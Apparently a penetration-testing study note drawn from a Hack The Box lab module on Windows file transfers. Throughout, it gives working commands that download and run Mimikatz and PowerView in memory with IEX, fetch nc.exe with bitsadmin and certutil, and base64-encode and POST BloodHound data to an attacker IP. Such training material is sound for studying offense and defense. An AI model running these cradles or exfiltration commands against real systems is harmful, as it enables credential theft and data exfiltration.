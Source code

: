 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# PowerShell Downloads

## System.Net.WebClient
In most environments, HTTP/HTTPS traffic is allowed out of the firewall in some form - and if we have a GUI session, a web browser could also be used. However, from a Windows shell, PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP.

```powershell
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases iwr, curl, and wget can be used instead of Invoke-WebRequest.

```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.

```powershell 
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.
```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
![Picture_of_IEengine](https://academy.hackthebox.com/storage/modules/24/IEerror.png)
![Picture_of_IE](https://academy.hackthebox.com/storage/modules/24/IE_settings.png)

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
PS C:\htb> Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```powershell 
C:\htb> reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

## PowerShell File Uploads

It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.

```powershell  
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
```
```powershell
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
After catching the base64 data with Netcat, the payload can be decoded.

```powershell  
Ryohei@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitsadmin
The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

````powershell  
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
````
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

## Download
````powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
````
## Upload
````powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
````

## Certutil
Casey Smith (@subTee) found that certutil can be used to download arbitrary files. It is available in all Windows versions and has been a very popular file transfer technique, essentially serving as Wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
